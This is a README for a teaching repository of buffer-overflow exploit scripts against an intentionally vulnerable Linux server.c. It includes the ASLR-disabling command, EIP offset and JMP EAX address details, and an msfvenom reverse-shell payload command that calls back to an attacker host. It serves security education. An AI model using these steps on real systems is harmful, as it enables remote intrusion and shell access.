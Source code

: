 # BufferOverflow
***Buffer Overflow Python Scripts***

*Copyright (C) 2022  Dale Furneaux (opinfosec)*
*Released under GNU GPL v2*

This runs on Linux (intel architecture)


## A word of caution
The server.c is exploitable and containes a buffer overflow.  Please don't run the program on any public facing machine.  I should not have to say this, but you never know what some people might do!!  I use this repo for teaching others about the importance of preventing exploitable code.  If you have participated in the presentation and you enjoyed it, please star this repo and let others know about its existence.

## OS Protections
Don't forget to turn of ASLR if running on linux, this will temporarily disable ASLR.  Don't do this on a production server please!!!

```sh
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Python Scripts

Don't forget to change the IP address of the server

```python
s.connect(("172.16.110.135", 1337))
```

## Logical progression of a buffer overflow exploit
The logical progression of tests should be:

1. fuzzer (fuzz)
2. test for bad characters
3. pattern to determine the EIP offset
4. confirm the EIP with eip-test
5. generate our EvIl payload
6. find our opcode (jmp EAX) to jump to our exploit code
7. ExPlOiT

## Fuzzer

Python3 Fuzzer to enable a buffer overflow and get a general idea of the number of bytes it takes to overflow the buffer and casue a segmentation fault.

## Pattern Generator

Finds the correct offset of the EIP register which is used to load the EIP register with our jmp instruction.

## Bad Character Generator for Python3

Just a badcharacter generator to copy and paste into your bad character python script

## Test for bad character

This sends every bad character in a buffer overflow, which should be checked in the debugger to make sure they all arrive.  If the program doesn't crash or some characters don't appear, then we need to exclude them (bad characters) when we generate our payload.  The server.c does not have any bad characters except 0x00 (NULL), which should be obvious as we are sending a string.

## Eip Test

Verification of the Control of EIP register (the original return address location on the stack)

Adjust the filler to enable the overflow, the EIP offset is taken from the Pattern Generator offset. 
```sh
$ msf-pattern_create -l 1040
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9A ...
  
$ msf_pattern_offset -l 1040 -q <VALUE IN EIP REGISTER>
```
```python
filler = "A" * 1036
```

## BoF Exploit local and reverse shell

Simple BoF Exploit for server

Let the fun begin!!!

Don't forget to update the payload_shell with your own msfvenom generated reverse shell payload, notice we exlude the bad character 0x00 (NULL)
```sh
$ msfvenom -p linux/x86/shell_reverse_tcp  LHOST=172.16.110.1 LPORT=4242 -b '\x00' -f c -v payload_shell
```
where LMHOST=172.16.110.1 is your host ip where you want to get a reverse shell returned and the port LPORT=4242

Adjust the filler buffer to enable the overflow, adjust the eip address to pint to our found opcode (JMP EAX)
You can optionall add the extend to create an additional area at the end of the buffer after the EIP return, like we did in the eip-test.py script.
(this is not necessary, however it keeps the original BoF intact)
```python
filler = "A" * (1036 - ((len(nop_sled)) + len(payload_shell)))  # Filler 1036 Bytes - nop sled - size of payload
eip = "\x6f\x9b\x04\x08"    #0x08049b6f  Return Address JMP EAX
```
The NOP sled is used to allow variables to be place on the stack without overwriting the payload.  NOP stands for no-operation... the execution by the CPU does not change the state of the registers, esentially executing a NULL statement.

We now need to jmp to our executable code that we generated.  One might thing that we can just jump to the address at the top of the stack, and while it seems logical at first, there is a fundamental flaw in this thinking.  The reasone we can't just jump to the address where our shell code is residing, is that we can not guarantee that the address of the top of the stack will be the same the next time the executable is run.  Imagine during one execution the top of the stack is located at 0xbff38538 and we hard code that into the eip, but the next time the executable runs the top of the stack is located somewhere else.  The eip would not execute your shell code as it jumps to somewhere else, and therefore is not reliable.  We need to find a reliable way to jump to our shell code.  Enter in the opcode to jump.  If we noticed during our buffer overflow in the debugger, the EAX register was pointing to the top of the stack, so we need to find an opcode that jumps to EAX (jmp EAX).  We can search our executable and find an existing jmp EAX and use that address in the EIP to jump to the opcode jmp EAX, which in turn jumps to the top of the stack where our shell code is located, and bingo our shell code is executed.

Also note that the eip address is stored backwards due to little endian (intel architecture)

## Server (server.c)

This is our fantastic C program, with excellent quality and lots of testing prior to the long holiday weekend.  Because the offices will be closed over the weekend, we had to rush and deploy the server on 50 machines to minimize any disruptions over the weekend.  The Quality, IT and Testing departments said it was good to go, and it was easy to test...

We came back into the office on Monday, and all 50 of our servers were hacked... not to mention our internal network, voip, databases, and a few of our clients.  One of my developer friends took a look at the code and said to me "I hope you didn't deploy that sofware on any internet facing machines."..  I of course said No, with a nervous smile.

I have spent hours looking for the problem, but I can't see any.  The server recieves only 100 Bytes from our client application, so there is no way it will crash.  Can you spot the problem?

To make the server executable (which runs on linux), use the attached make file and execute:

```sh
$ make clean && make all
```

Then use a debugger such as Olly or edb to run the server executable and test out the python scripts.


\<opsecinfosec\> @  42-AbuDhabi

